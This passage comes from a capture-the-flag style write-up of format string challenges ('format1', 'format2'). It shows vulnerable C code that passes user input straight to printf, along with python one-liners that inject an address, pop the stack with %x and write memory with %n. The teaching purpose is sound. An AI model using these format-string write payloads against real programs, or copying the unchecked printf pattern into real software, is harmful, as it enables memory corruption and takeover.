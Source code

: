     ```bash
    ./format1 `python -c "print '\x38\x96\x04\x08' + '%x' * 142"`
    ```

7. The last step is to have something written to that address: to do this we swap the last '%x' with a '%n', so that the address will be popped and used as a pointer to write the amount of bytes that have been written until now. The challenge is solved.

    ```bash
    ./format1 `python -c "print '\x38\x96\x04\x08' + '%x' * 141 + '%n'"`
    ```

### [Format 02]
Write specific values in memory

```c
int target;

void vuln(){
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    
    if(target == 64) {
        printf("you have modified the target :)\n");
    } else {
        printf("target is %d :(\n", target);
    }
}

int main(int argc, char **argv){
    vuln();
}
```

> Counting format strings: by providing a number between the percentage and the letter, the resulting format string will write that amount of elements. This means that it is possible to control what is written by %n: for example by using %Xu%n the result will be %n writing exactly value X because that's the amount of bytes that have been outputted. 

1. The challenge is similar to the previous one, but this time we have to write a specific value into target, and not just a random one. Again, we start using `objdump -t format2 | grep target` to find out that target is at address 0x080496e4
2. Time to spam format2 to find out how many pops we have to do to get the target address at the right place at the top of the stack:

    ```bash
    python -c "print 'AAAA' + '%x'*20" > /tmp/format2.in
    ./format2 < /tmp/format2.in
    ```

3. This time, turns out that we are looking really close, as the right amount of pops is 4. We swap our pattern with the target address, we remove a pop and instead put a '%n' in there.
